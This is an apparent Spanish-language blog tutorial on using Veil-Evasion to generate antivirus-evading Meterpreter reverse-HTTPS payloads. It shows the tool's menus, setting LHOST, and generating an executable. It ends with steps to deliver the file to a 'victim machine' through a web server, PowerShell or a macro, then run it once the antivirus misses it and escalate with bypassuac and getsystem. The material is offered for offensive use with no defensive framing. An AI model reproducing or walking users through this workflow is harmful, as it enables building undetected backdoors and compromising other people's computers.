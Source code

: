 ```yaml
---
layout: post
title: 'Veil-Evasion: Como crear payloads indetectables'
date: '2017-07-29 04:25:34'
tags:
- metasploit
- kali
- powershell
- evasion
---
```


Una de las cosas mas discutidas es como crear un payload indetectable a los AV's o como hacer un ejecutable con un backdoor sin que suene una alarma?

Hay muchos metodos para hacer un payload totalmente indetectable pero Veil-Evasion nos ayuda mucho en este caso.

![Veil 3 logo](https://camo.githubusercontent.com/4d1e7e864f6be9fb19d0be7eff8b28c9b522e62d/68747470733a2f2f7777772e7665696c2d6672616d65776f726b2e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031332f31322f63726f707065642d5665696c2d53796d626f6c322e706e67)
## Que es [Veil-Evasion](https://github.com/Veil-Framework/Veil)?
Es una plataforma que nos ayuda a crear payloads y backdoors que sean difícilmente detectables en el sistema ajeno. Esto nos ayuda a pasar alarmas IDS/IPS y también muchos antivirus.

Es importante destacar que a veces algunos Anti-Virus basados en heuristicas, sandboxing y demas, tienden a detectar la amenaza, es por eso que debemos primero conocer el sistema del objetivo. Incluso a veces con un simple mapeo de red podemos reconocer dispositivos que nos dicen que sistema de AV se usa en la organización.

## Uso

No cubrire la instalación aquí ya que (al menos para mí) es un dolor de cabeza. Pero en Kali es bastante simple: `apt install veil-evasion` y listo.

```
=========================================================================
 Veil-Evasion | [Version]: 2.28.2
=========================================================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
=========================================================================

 Main Menu

        51 payloads loaded

 Available Commands:

        use             Use a specific payload
        info            Information on a specific payload
        list            List available payloads
        update          Update Veil-Evasion to the latest version
        clean           Clean out payload folders
        checkvt         Check payload hashes vs. VirusTotal
        exit            Exit Veil-Evasion

 [menu>>]:
```

Al ejecutar `veil-evasion` podemos ver las opciones que son bastante simples:
* `use`: Para usar un payload de la lista.
* `info`: Obtener mas información de un payload.
* `list`: Lista de payloads
* `update`: Actualizar Veil-Evasion
* `clean`: Limpiar/remover payloads, ejecutables, codigo, shellcodes en el sistema.
* `checkvt`: Para confirmar los hashes en VirusTotal, **es importante hacer esto.**

Uno de mis favoritos y que considero yo que causan menos alertas son `powershell/meterpreter/rev_https` y `go/meterpreter/rev_https` ya que por supuesto una conexión https levanta menos sospechas que un TCP en el puerto mas sospechoso posible.

Una vez que tengamos el payload de la lista que querramos utilizar pues lo ejecutamos:
`use go/meterpreter/rev_https`
```
Payload: go/meterpreter/rev_https loaded


 Required Options:

 Name                   Current Value   Description
 ----                   -------------   -----------
 COMPILE_TO_EXE         Y               Compile to an executable
 LHOST                                  IP of the Metasploit handler
 LPORT                  8443            Port of the Metasploit handler

 Available Commands:

        set             Set a specific option value
        info            Show information about the payload
        options         Show payload's options
        generate        Generate payload
        back            Go to the main menu
        exit            exit Veil-Evasion

 [go/meterpreter/rev_https>>]:
```

Configuramos nuestro **L**ocal **Host**:
```
[go/meterpreter/rev_https>>]: set LHOST 0.0.0.0
 [i] LHOST => 0.0.0.0
```

Y procedemos a generarlo aceptando los valores por defecto:
```
[go/meterpreter/rev_https>>]: generate

 [>] Please enter the base name for output files (default is 'payload'):
 
encoding/base64
sort
encoding/pem
internal/singleflight
net
-- SNIP --
 
[*] Executable written to: /var/lib/veil-evasion/output/compiled/payload1.exe

 Language:              Go
 Payload:               go/meterpreter/rev_https
 Required Options:      COMPILE_TO_EXE=Y  LHOST=0.0.0.0  LPORT=8443
 Payload File:          /var/lib/veil-evasion/output/source/payload1.go
 Handler File:          /var/lib/veil-evasion/output/handlers/payload1_handler.rc

 [*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)

 [>] Press any key to return to the main menu.
```

Y listo, nuestro payload ya fue escrito en `/var/lib/veil-evasion/output/compiled/payload1.exe` para que podamos probarlo y llevarlo de la manera mas conveniente a nuestro objetivo.

Una de las maneras mas convenientes para hacer esto es hacer un servidor web y descargar el archivo en la máquina víctima abusando de powershell o un macro.

Aquí te demuestro con un ejemplo. Pasos realizados:
1. Generacion de payload con Veil
2. Empujar el payload en un zip en el directorio de apache e iniciar el servicio
3. Descargar el archivo zip en la máquina objectivo y descomprirlo.
4. Iniciar metasploit con el recurso que nos dio Veil: `/var/lib/veil-evasion/output/handlers/payload1_handler.rc`
5. Una vez que el AV no detecta el archivo maligno, proceder a ejecutarlo.
6. Una vez conectado el payload a metasploit proceder a post-explotar la maquina con un bypassuac para Windows 10
7. ejecutar getsystem en meterpreter
